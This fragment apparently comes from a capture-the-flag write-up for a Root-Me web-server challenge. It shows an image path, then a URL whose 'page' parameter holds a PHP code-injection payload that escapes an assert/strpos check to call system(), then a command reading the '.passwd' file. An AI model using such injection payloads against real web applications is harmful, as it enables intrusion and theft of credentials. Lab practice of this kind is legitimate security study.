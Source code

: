 http://challenge01.root-me.org/web-serveur/ch47/?page=ww', 'r') == true or system('**shell**') and strpos('1</br>
shell: cat .passwd